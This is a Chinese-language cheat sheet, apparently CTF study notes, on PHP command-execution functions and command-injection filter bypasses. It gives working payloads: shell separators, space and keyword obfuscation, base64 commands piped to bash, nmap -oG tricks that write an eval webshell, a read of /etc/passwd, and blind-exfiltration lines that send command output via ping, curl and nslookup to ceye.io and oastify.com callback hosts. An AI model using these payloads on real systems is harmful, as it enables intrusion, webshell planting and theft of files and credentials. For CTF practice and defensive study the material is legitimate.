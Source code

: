 ## **php命令执行函数**
php的命令行执行函数：
```
反撇号 `` ：输出并返回shell结果。
    用法：echo `whoami`;
system()：执行外部程序，并且显示输出
    用法：system('whoami')
passthru()
    执行外部程序并且显示原始输出。
    用法：passthru('whoami')
shell_exec()
    通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回
    用法：shell_exec('id’);
exec()
    不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面
    用法：exec($_POST['system'], $output);print_r($output);
popen()
proc_open()
pcntl_exec()

@call_user_func('file_get_contents', '/etc/passwd');
```


## **0x00.远程命令执行**

应用程序会调用系统的命令函数，当攻击者可以控制这些函数的参数时，就可以把恶意命令拼接到正常命令中，从而造成远程命令执行漏洞

1. 命令注入漏洞产生的原因
```
1、用户可以控制输入的内容
2、用户输入的内容被当作命令执行
```
2. 漏洞产生位置
* web源码\
  Nexus\
  Webmin\
  ElasticSearch
* 中间件平台\
  weblogic\
  Apache
* 其他环境\
  Postgresql\
  Samba\
  Supervisord



## **0x01.常用命令执行**
shell_exec("ping -c 4 ".$ip);
如ping 4次功能输入框
```

& 前后命令同时进行
ping -c 2 127.0.0.1 & cat /flag
ping -c 2 127.0.0.1 & cat flag.php  

;  先前后后命令都执行
ping -c 2 127.0.0.1 ; cat flag.php  

&& 前面成功，后面才执行

| 管道符，前面结果作为后面的参数

|| 前面失败，后面才执行
可以用于绕过后面有限制的命令
cat flag.php || >/dev/null 2>&1
后面命令表示不回显，不能让后面的命令执行。
还可以：?c=cat flag.php%0a  也不让后面命令执行


namp参数写文件webshell
?host=' <?php @eval($_POST["cmd"]);?> -oG test.php '
或直接读
?host=' <?php echo `cat /flag`;?> -oG test.php '

?host=' <?= @eval($_POST[1]);?> -oG a.phtml '
```



## **0x02.空格绕过**
网站过滤了空格，命令中不能出现空格
```
1. 使用linux下的分割符变量替换空格：
$IFS   =  ${IFS}    $IFS$1
如：cat$IFS$1/flag

2.替换无空格命令
{cat,/flag}

3.替换无空格命令
cat</flag

4.cat%09/flag
%09 table符url编码，有可能绕过白名单了会再解码一次。
```



## **0x03.命令字符替换**
ls换dir
cat查看命令替换：
```
cat    从第一行开始显示全部内容
tac    从最后一行显示全部内容
nl    显示全部内容，且前面有行号
more    按页显示文本
less        按页显示文本
head    显示头指定的行数  `head -n 5 file.txt` 会显示 `file.txt` 文件的前5行。
tail    显示尾指定的行数
c'a't  加引号
ca""t
ca\t  加一个换行符一样可执行
```

名称替换，如flag
```
flag
f*
f???
fl?g
fl''ag
a=g;cat fla$a  //定义a变量，替换变量
fla${b}g   //没有b变量，替换为空白

fla\g   //加一个换行符一样可执行
fla'g'  //加引号
```
## **0x04.组合绕过命令**
```
输出flag.php文件中内容：
echo cat flag.php|bash
$IFS$作分隔符：
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
//Y2F0IGZsYWcucGhw ->cat flag.php,输出给base64还原然后sh执行

?c=echo(`nl%09f*`);
?c=echo(`less%09f*`);
?c=echo(`more%09f*`);


假如当前目录只有flag.php文件，先ls，再作为参数cat。
cat `ls` 
$IFS$作分隔符：
cat$IFS$9`ls` 
//内联，就是将反引号内命令的输出作为输入执行。
```

## **0x05.无回显远程命令**
1. bash反弹shell
2. DNSlog携带
3. 写文件到web。如：nl f*>1.txt  。需要目录可写。
```
nl f*>1.txt
ls|tee 1   写到1文件
cp flag.php 2.txt
mv flag.php 3.txt
```
```
ping ：
ping `whoami`.ip.port.2qytvx.ceye.io
ping对域名比较严格，域名不能有{}，==
找不到主机:
{666}.2qytvx.ceye.io
2qytvx.ceye.io/{666}
ping `nl flag.php|awk 'NR==15'|tr -cd 'a-zA-Z0-9-'`.mf5ak5sgm49u09wh9c8g05ddg4mxatyi.oastify.com
这里flag在15行，可以多试。

curl ：
curl -X POST http://ip.port.xxxxxx.ceye.io/`whoami`
会先执行whoami,再ping,curl
curl http://5lrtqoyzsnfd6s20fvez6ojwmnsfg94y.oastify.com/`cat flag.php|grep ctfshow`

nslookup:
nslookup `cat /flag`.2qytvx.ceye.io
nslookup `cat /flag | base64`.2qytvx.ceye.io
```


## **0x06.限制命令长度的远程命令**
如限制命令长度字符为9:
把超过9的命令进行base64编码
差分不同段成符合长度
命令换行
倒序每一个命令生成以文件名
文件名按时间查看，并写入一个文件
sh x 执行文件

^
查看当前目录中的文件内容flag。
先>nl
再*